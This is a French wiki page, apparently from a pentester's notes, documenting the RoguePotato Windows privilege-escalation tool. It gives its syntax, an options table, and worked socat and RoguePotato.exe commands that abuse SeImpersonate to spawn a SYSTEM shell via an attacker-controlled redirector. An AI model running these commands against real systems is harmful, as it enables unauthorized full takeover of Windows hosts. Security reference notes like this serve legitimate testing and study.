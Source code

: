 ```yaml
---
title: RoguePotato
description: Permet d'utiliser les privilèges SeImpersonate pour escalader les privilèges jusqu'au compte NT AUTHORITY\SYSTEM
published: true
date: 2024-07-13T10:59:42.756Z
tags: outil, windows, élévation des privilèges
editor: markdown
dateCreated: 2024-07-13T10:59:42.756Z
---
```


# Introduction

RoguePotato permet d'utiliser le privilège SeImpersonate pour escalader les privilèges jusqu'au compte NT AUTHORITY\SYSTEM.

> RoguePotato est disponible au téléchargement ici: https://github.com/antonioCoco/RoguePotato
> {.is-info}

> RoguePotato est une alternative à Juicy Potato, qui ne fonctionne pas sur les versions après Windows Server 2019 et Windows 10 build 1809.
> {.is-info}

# Syntaxe

`RoguePotato.exe -r [Adresse IP] -e [commande] [options]`

# Options

| Option            | Description                                                                                                         |
| ----------------- | ------------------------------------------------------------------------------------------------------------------- |
| `-r [Adresse IP]` | Spécifie l'adresse de la machine distante à utiliser comme redirecteur                                              |
| `-e [commande]`   | Spécifie la commande à exécuter                                                                                     |
| `-l`              | Spécifie le port d'écoute du RogueOxidResolver                                                                      |
| `-p`              | Nom du canal nommé à utilisé (par défaut: RoguePotato)                                                              |
| `-z`              | Rend aléatoire le nom du canal nommé utilisé (ne pas utiliser avec -p)                                              |
| `-c`              | Précise le CLSID utilisé (par défaut, celui du Service de transfert intelligent en arrière-plan (BITS) est utilisé) |

> Pourquoi le CLSID du Service de transfert intelligent en arrière-plan (BITS) est utilisé par défaut? C'est simple, le CLSID de BITS est le même entre chaque machine. Il est possible de préciser d'autres CLSID pour utiliser d'autres token
> {.is-info}

# Exemples

1. Sur la machine attaquante, utiliser socat pour rediriger le port 135 (RPC) sur le port 9999 de la machine cliente (il faut utiliser le même port sur la machine cliente, celui-ci n'est pas forcément le port 9999):

`socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999`

2. Lancement de RoguePotato sur la machine cliente avec l'adresse de la machine attaquante comme ip distante, comme commande "cmd.exe" et comme port 9999 (le même que précisé antérieurement)

`RoguePotato.exe -r 10.0.0.2 -e "C:\windows\system32\cmd.exe" -l 9999`

# Voir aussi

Fonction CreateProcessWithTokenW:
https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw

Fonction CreateProcessAsUser:
https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera

Liste des CLSID (peut être incomplet):
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

Pourquoi JuicyPotato ne fonctionne pas sur les versions après Windows Server 2019 et Windows 10 build 1809:
https://decoder.cloud/2018/10/29/no-more-rotten-juicy-potato/

Présentation et fonctionnement basique des potatoes:
https://jlajara.gitlab.io/Potatoes_Windows_Privesc#juicyPotato
